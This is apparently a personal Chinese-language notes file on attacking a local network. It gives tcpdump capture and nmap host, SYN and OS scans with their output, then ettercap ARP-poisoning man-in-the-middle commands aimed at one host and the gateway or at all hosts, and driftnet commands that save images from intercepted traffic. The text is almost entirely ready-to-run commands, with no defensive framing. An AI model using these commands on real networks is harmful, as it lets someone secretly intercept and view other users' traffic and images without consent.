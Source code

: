 ifconfig

# 局域网抓包
tcpdump -vv -i wlp8s0 > 0720.txt


# 查看局域网主机ip

- 进行ping扫描，打印出对扫描做出响应的主机　
搜索
nmap -sP 192.168.1.0/24　　

Starting Nmap 7.01 ( https://nmap.org ) at 2018-07-20 20:46 CST
Nmap scan report for localhost (192.168.1.1)
Nmap scan report for localhost (192.168.1.100)
Nmap scan report for localhost (192.168.1.103)
Nmap scan report for localhost (192.168.1.105)
Nmap scan report for localhost (192.168.1.107)
Nmap scan report for localhost (192.168.1.123)
Nmap done: 256 IP addresses (6 hosts up) scanned in 2.91 seconds

半开放扫描
sudo nmap -sS 192.168.1.0/24

- 扫描之后查看arp缓存表获取局域网主机IP地址
cat /proc/net/arp

IP address       HW type     Flags       HW address            Mask     Device
192.168.1.112    0x1         0x2         a0:18:28:18:0d:2a     *        wlp8s0
192.168.1.1      0x1         0x2         b0:95:8e:c9:85:5c     *        wlp8s0
192.168.1.104    0x1         0x2         a0:86:c6:9f:35:25     *        wlp8s0
192.168.1.107    0x1         0x2         e0:b5:2d:00:41:6b     *        wlp8s0
192.168.1.100    0x1         0x2         74:ac:5f:89:34:90     *        wlp8s0
192.168.1.105    0x1         0x2         2c:56:dc:3b:da:8b     *        wlp8s0
192.168.1.103    0x1         0x2         20:68:9d:94:13:8f     *        wlp8s0

- 检测操作系统
sudo nmap -O 192.168.1.1



# 中间人

sudo apt install ettercap-text-only
sudo apt install driftnet
sudo ettercap -Tqi wlp8s0 -M arp:remote /192.168.1.107// /192.168.1.1//
sudo ettercap -Tqi wlp8s0 -M arp:remote /// /192.168.1.1//
sudo driftnet -i wlp8s0
sudo driftnet -i wlp8s0 -d dir_name -am max-num -s # 保存图片到文件夹




sudo apt install ettercap-graphical
sudo ettercap -G
https://blog.csdn.net/zc19930620/article/details/61642372

ettercap -Tzq

